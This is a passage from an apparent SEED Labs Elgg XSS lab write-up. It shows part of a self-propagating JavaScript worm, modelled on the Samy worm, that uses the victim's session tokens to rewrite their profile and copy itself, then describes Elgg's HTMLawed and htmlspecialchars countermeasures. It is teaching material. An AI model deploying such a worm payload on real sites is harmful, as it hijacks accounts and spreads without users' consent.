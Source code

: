```js
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/".concat(elgg.session.user["username"]).concat("/edit"));

params = "__elgg_ts=".concat(ts)
         .concat("&__elgg_token=").concat(token)
         .concat("&description=User-11-is-great")
         .concat(escape(selfProp))
         .concat("&name=").concat(elgg.session.user["username"])
         .concat("&accesslevel[description]=2&guid=").concat(elgg.session.user["guid"]);

ff.send(params);
```

- The `escape()` function converts the `inner strings` to `URLencoding` for http transfer.
- Now when a user views the profile of user11,
- the user's account will have its 'about me' section set to "User-11-is-great".
- Also the code itself will be copied to the user's page.
- Also now since the code is in the user's page, whenever a user views the account of this user, the code will get executed and the new user will also have his account modified.
- The add friend exploit can also e added to the above code as a new `XMLHttpRequest` part.
- That code will become the exact replica of the famous Samy's worm attack of 2005.

---

## Task 7 : Countermeasures
- Elgg have a built in countermeasures to defend XSS attack.
  - a custom built security plugin `HTMLawed 1.8` on the Elgg web application which on activation
  - validates the user input and removes the tags from the input.
  - This specific plugin is registered to the function `filter_tags` in the `elgg/ engine/lib/input.php` file.
  - The countermeasures have been deactivated and commented out to make the attack work.
    - To turn on the countermeasure, login to the application as admin, goto `administration -> plugins`, and select security and spam in the dropdown menu. The `HTMLawed 1.8 plugin` is below. This can now be activated.


- another built-in PHP method called `htmlspecialchars()`
  - to encode the special characters in the user input, such as encoding `"<" to &lt`, `">" to &gt;`, etc.
  - Go to the directory `elgg/views/default/output` and find the function call `htmlspecialchars` in `text.php, tagcloud.php, tags.php, access.php, tag.php, friendlytime.php, url.php, dropdown.php, email.php` and `confirmlink.php` files.
  - Uncomment the corresponding `htmlspecialchars` function calls in each file.

---

The above was a detailed description of an XSS attack taking examples from the real world Samy's Worm attack.

The above is a documentation of a lab experiment by the name XSS attack lab (Elgg) from publicly available seed labs by Syracuse University.

Seed Labs Copyright © Wenliang Du, Syracuse University.
I do not own any software mentioned in the above document.

---
.
